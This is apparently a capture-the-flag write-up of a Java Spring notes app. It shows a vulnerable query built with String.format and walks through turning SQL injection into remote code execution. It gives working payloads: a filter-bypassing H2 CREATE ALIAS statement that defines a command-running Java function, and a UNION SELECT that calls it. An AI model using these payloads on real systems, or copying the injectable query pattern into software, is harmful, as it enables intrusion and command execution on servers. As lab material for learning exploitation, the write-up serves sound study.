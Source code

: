 # Pentest Notes

## Solutions
```sql
INSERT INTO users (id, username,password) VALUES (1, 'user', '123');
```
We can login using default user account
```java
    @PostMapping("/note")
    public ResponseEntity < ? > noteByName(@RequestParam String name, HttpSession httpSession) {
        if (httpSession.getAttribute("username") == null) {
            return ResponseEntity.status(HttpStatus.UNAUTHORIZED).body("unauthorized");
        }
        if (name.contains("$") || name.toLowerCase().contains("concat")) {
            return ResponseEntity.status(HttpStatus.FORBIDDEN).body("Bad character in name :)");
        }
        String query = String.format("Select * from notes where name ='%s' ", name);
        List < Object[] > resultList = entityManager.createNativeQuery(query).getResultList();
        List < Map < String, Object >> result = new ArrayList < > ();
        for (Object[] row: resultList) {
            Map < String, Object > rowMap = new HashMap < > ();
            rowMap.put("ID", row[0]);
            rowMap.put("Name", row[1]);
            rowMap.put("Note", row[2]);
            result.add(rowMap);
        }
        return ResponseEntity.ok(result);
    }
```
First glance at the note function, we can see that there is no restriction for name parameter. And after i put a ' OR 1=1; in the payload, it return all the notes. So that it is a SQLi, and we need somehow to chain this to RCE so that we can read the flag.
After searching around, i saw a interesting [writeup](https://medium.com/r3d-buck3t/chaining-h2-database-vulnerabilities-for-rce-9b535a9621a2).

So for short, H2 database allows us to create a function that execute Java code through ALIAS
```sql
CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }$$;
```
So here is our function but there are some conditions.
```java
        if (httpSession.getAttribute("username") == null) {
            return ResponseEntity.status(HttpStatus.UNAUTHORIZED).body("unauthorized");
        }
        if (name.contains("$") || name.toLowerCase().contains("concat")) {
            return ResponseEntity.status(HttpStatus.FORBIDDEN).body("Bad character in name :)");
        }
```
We cannot use `$` or the `CONCAT` function. Fortunately, we can bypass this restriction since the `CREATE ALIAS` expects a String, so we don't need to use `$`.
So out payload would be 
```sql
'CREATE ALIAS EXECVE AS 'String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }';--
```
After injecting this function to the database,what we need now is just call out the function.
```sql
' UNION
SELECT EXECVE('ls') AS note;--
```


